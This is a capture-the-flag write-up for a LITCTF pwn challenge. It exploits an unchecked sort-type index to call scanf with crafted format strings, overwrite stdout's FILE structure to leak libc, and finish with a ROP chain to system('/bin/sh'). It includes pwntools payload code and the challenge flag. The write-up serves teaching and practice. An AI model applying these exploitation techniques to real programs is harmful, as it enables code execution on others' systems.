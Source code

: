 # How to Raise a Boring Vuln Flat
![challenge](challenge.png)
### Description:
#### Exploiting programs is just a game. Connect at `nc litctf.org 31775`.  

### First look:

The challenge prompts us for an array of numbers with an arbitrary size:

```bash
$ ./bflat
How to raise a boring vuln.

How many ints?
3
Input ints (separate by space):
1 2 3
```

It then asks us to choose between two ways to sort the array and exits:

```bash
Input sort type (1 = forward, 2 = reverse):
2
Sorted array:
3 2 1 

Bye.
```

### Vulnerability:

If we take a look at the decompiled program we can see that the comparison functions are stored inside a global two-element array, furthermore it doesn't perform any bounds check on our provided index.

```c
pwndbg> x/2a &cmps
0x555555558010 <cmps>:	0x555555555209 <cmp_int>	0x555555555250 <cmp_int_rev>
```

```c
puts("Input sort type (1 = forward, 2 = reverse):");
__isoc99_scanf("%d",&type);
qsort(buf,(long)num,4,cmps[type + -1]);
```

As the array `cmps` is stored inside the `.data` segment of the program we can use any relatively adjacent pointer as the comparison function for the `qsort` function.

We can also notice how we're able to control the first 2 arguments of the function, as it will compare 2 integers from the array.

Some interesting targets are the got functions, more specifically i used the `scanf` function.   

### Solution:

We can use `scanf` as our comparison function by using `-7` as our index, we can then craft an array by writing our format strings as numbers, note that they will be stored consecutively, so we can split a single format string in multiple numbers.

```py
payload = bstr(u32(b"%157")) + b" "
payload += bstr(u32(b"$s\0\0")) + b" "
payload += bstr(u32(b"$s\0\0")) + b" "
payload += bstr(u32(b"%186")) + b" "
payload += bstr(u32(b"$10c")) + b" "
```

This payload is intended to call `scanf` two times with two different format strings:

```c
scanf("%157$s")

scanf("%186$10c")
```

`%157$s` will write on `_IO_2_1_stdout_` which is present on the stack thanks to previous calls to puts. 
We'll be doing a partial overwrite on the FILE structure with this payload:

```py
p64(0xfbad1887)+p64(0)*3 # + a null byte which is the \n of sendline()
```

Basically this will inject a null-byte on the fifth field of the FILE struct, `_IO_write_base`, which is used to determine the lenght of the stdout buffer, by injecting a null byte we're effectively expanding this buffer which will make the next call to puts (or any other function that uses the stdout struct) dump way more bytes than intended.  

```bash
Input sort type (1 = forward, 2 = reverse):
D\x86\x7f\xcev\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0x\xcev\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00
```

Due to the `setbuf(stdout, 0)` call at the beginning of the binary, the buffer of the file struct wont be located inside the heap, but inside the file struct iself, which in turn is inside the libc. 
(That call is meant to disable buffering for file structs, but internally they will still use an 8-bytes long buffer inside the struct itself).

All of this means that we'll get a libc leak, yay!

However we still need a way to restart the binary, which is where the second call to `scanf` comes in.

`%186$10c` will write on the return pointer of `scanf`, which is an address of the binary, at this point we still dont know the base address of the binary, but we can once again perform a partial overwrite on this address to call the `_start` function.

```py
payload = b"A"*7 + b"\x20\x01"
```

By using this as our payload, coupled with using `%10c` instead of `%s`, we can avoid the terminating null-byte.

Note that as we don't know the base address of the binary we need to bruteforce the 4th less significant nibble, which makes our exploit have an 1/16 success rate.

After successfully restarting the binary we can repeat the steps to overwrite the return pointer, this time however can craft a fully-fledged ropchain thanks to our libc leak.

```py
r.sendline(b"2")

payload = bstr(u32(b"%158")) + b" "
payload += bstr(u32(b"$s\0\0")) + b" "
r.sendline(payload)
r.sendline(b"-7")

rop = ROP(libc)
payload = b"A"*8 + p64(rop.rdi.address) + p64(libc.binsh()) + p64(rop.ret.address) + p64(libc.sym.system)

r.sendline(payload)
```

Solve script: [solve.py](solve.py)

Flag: ```LITCTF{k4t0u_4ls0_l34rns_t0_pr0gram}```